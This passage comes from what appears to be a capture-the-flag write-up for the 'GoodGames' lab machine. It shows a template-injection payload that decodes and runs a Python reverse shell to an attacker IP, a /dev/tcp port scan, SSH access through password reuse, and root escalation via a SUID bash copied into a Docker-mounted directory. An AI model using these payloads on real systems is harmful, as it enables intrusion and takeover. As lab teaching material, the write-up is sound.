Well thankfully we can simply use the `$\{IFS\}` Linux Environment Variable which defaults to a space or tab. This if we place this in the spot where a space should the variable should be replaced with a space upon execution.



It works! The `user.txt` flag can be found in the `augustus` users home directory.

Now that we have remote code execution on the machine we can attempt to get a foothold on the machine by initiating a reverse shell.

A common method used in this case is to base64 encode our reverse shell payload and then in the command sent to through the POST requests name parameter decode the payload and then pipe it into a shell.

We can go to [revshells](https://www.revshells.com/) and get out payload, in this case we will use the `Python3 \#2` payload that is base64 encoded:



Now that we have our encoded revshell command we need to craft our payload:

```
\{\{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'\].popen('echo$\{IFS\}"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjI0OSIsMTIzNCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vc2giKSc="|$\{IFS\}base64$\{IFS\}-d|sh').read()\}\}
```

With this payload our base64 rev shell command will be piped into the base64 -d command which decodes it and then pipes it into sh executing the rev shell command.

Before we send it we need to start a nc listener using:

```
nc -lvnp 1234
```

Once the listener is set up we can sent the POST request with our payload and after a few seconds we should receive a reverse shell:



Success! However the unusual hostname `3a453ab39d3d` indicates that we are in a `Docker` container....

## Escalation

Let's forst upgrade to a fully interactive TTY by running the command:

```
SHELL=/bin/bash script -q /dev/null
```

Listing the contents of augustus' home directory we notice that the file/folder owners is the UID 1000 instead of augustus indicating that augustus' home directory is mounted in the container from the main target machine.

We can test this using the `mount` command:



and indeed we see that augustus' home directory is mounted.

After doing a lot of enumeration I noticed that the ip address associated with the container is `172.19.0.2` which indicates that something, potentially the target machine is using the IP address `172.19.0.1`.

Using the `ping` command we can see that there is indeed something running under that IP:

```
root@3a453ab39d3d:/home/augustus\# ping -c 1 172.19.0.1  
ping -c 1 172.19.0.1  
PING 172.19.0.1 (172.19.0.1) 56(84) bytes of data.  
64 bytes from 172.19.0.1: icmp\_seq=1 ttl=64 time=1.54 ms  
  
--- 172.19.0.1 ping statistics ---  
1 packets transmitted, 1 received, 0% packet loss, time 0ms  
rtt min/avg/max/mdev = 1.548/1.548/1.548/0.000 ms
```

Let's try and gain some more information by doing a port scan, which we can do using a for loop:

```
root@3a453ab39d3d:/home/augustus\# for PORT in \{0..1000\}; do timeout 1 bash -c "\</dev/tcp/172.19.0.1/$PORT &\>/dev/null" 2\>/dev/null && echo "port $PORT is open"; done  
\<ull" 2\>/dev/null && echo "port $PORT is open"; done  
port 22 is open  
port 80 is open
```

Here we can see that ports 80 and 22 are running on the 172.19.0.1 machine. Port 22 being open is very interesting as this means that the machine has an ssh port open potentially allowing us to ssh into the machine.

Any time we come across a new potential point of access it is a good idea to try using the credentials we have already found as password reuse is unfortunately very common. In this case we find that the password we retrieved for the admin user on the web page is also augustus's ssh password.

```
root@3a453ab39d3d:/home/augustus\# ssh augustus@172.19.0.1  
ssh augustus@172.19.0.1  
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.  
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.  
Are you sure you want to continue connecting (yes/no)? yes  
yes  
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.  
augustus@172.19.0.1's password: \<REDACTED\>  
  
Linux GoodGames 4.19.0-18-amd64 \#1 SMP Debian 4.19.208-1 (2021-09-29) x86\_64  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/\*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
  
augustus@GoodGames:~$ 
```

So at this point we have control over the root account within the Docker container as well control over the Augustus user on the main target machine. Additionally we know that their user directory is mounted in the Docker container with read/write access.

How do we take advantage of this to escalate our privileges?

Well since we are running as root within the Docker container we are able to change the owner and permissions of any file within the container. Additionally since Augustus' home directory is mounted within the container we can then execute this file within the underlying target machine.

The first step in this process is to as augustus in the target machine copy /bin/bash into the home directory then exit the ssh session:

```
augustus@GoodGames:~$ cp /bin/bash .  
cp /bin/bash .  
augustus@GoodGames:~$ exit  
exit  
logout  
Connection to 172.19.0.1 closed.  
root@3a453ab39d3d:/home/augustus\# 
```

Listing the contents of the directory we can see that the bash executable is present:



As root we can now change the owner of the file from UID 1000 ie augustus to `root:root` as well as set the SUID bit meaning that anyone who executes this file runs it wit the permissions of the owner.

```
root@3a453ab39d3d:/home/augustus\# chown root:root bash  
chown root:root bash  
root@3a453ab39d3d:/home/augustus\# chmod +s bash  
chmod +s bash  
root@3a453ab39d3d:/home/augustus\# ls -al  
ls -al  
total 1168  
drwxr-xr-x 2 1000 1000    4096 Oct 24 20:30 .  
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..  
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash\_history -\> /dev/null  
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash\_logout  
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc  
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile  
-rwsr-sr-x 1 root root 1168776 Oct 24 20:30 bash  
-rw-r----- 1 root 1000      33 Oct 24 18:39 user.txt  
root@3a453ab39d3d:/home/augustus\# 
```

Now with the new owner and permissions set we can ssh back into the underlying target machine and attempt to use the bash executable to escalate our privileges to root:

```
augustus@GoodGames:~$ ./bash -p  
./bash -p  
bash-5.0\# whoami  
whoami  
root  
bash-5.0\# hostname  
hostname  
GoodGames
```

Success! We now have a root shell on the machine, the root flag can be found in the /root directory thus completing the challenge.


